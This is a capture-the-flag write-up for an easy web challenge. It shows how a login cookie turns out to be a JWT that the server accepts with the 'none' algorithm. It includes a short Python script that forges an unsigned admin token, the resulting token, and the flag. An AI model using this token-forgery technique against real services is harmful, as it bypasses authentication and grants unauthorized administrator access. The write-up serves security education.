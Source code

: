 # ## Vulns? None

**Author:** randN
**Category:** web
**Difficulty:** easy

## Description
```
Cookies? None
```

## Solve

Accessing the link provided in the challenge, a web page is provided with a simple login and register. Registering an account and login in after, a new link appears (*/administration*) and a cookie **token**.

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/web/vuln_none/images/after_login.png?raw=true)

Accessing the administration page we are received with: **No bussiness here!**.

Looking into the token, by the way its constructed looks like a JWT. Using https://jwt.io/ to decode it, the results are:

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/web/vuln_none/images/jwt_headers.png?raw=true)

Meet the "None" Algorithm: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/
A simple python scripts allows us to craft a JWT with the None algorithm.

```python
# https://pyjwt.readthedocs.io/en/latest/
import jwt

payload = {'id' : 'admin', 'admin': True}
print(jwt.encode(payload, None, algorithm=None, headers={'kid': 'da39a3ee5e6b4b0d3255bfef95601890afd80709'}))
```

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiwia2lkIjoiZGEzOWEzZWU1ZTZiNGIwZDMyNTViZmVmOTU2MDE4OTBhZmQ4MDcwOSJ9.eyJpZCI6ImFkbWluIiwiYWRtaW4iOnRydWV9.
```

And now we can access the administration page.

## Flag

CTFUA{JWT_1337_N0n3_dnVsbg==}
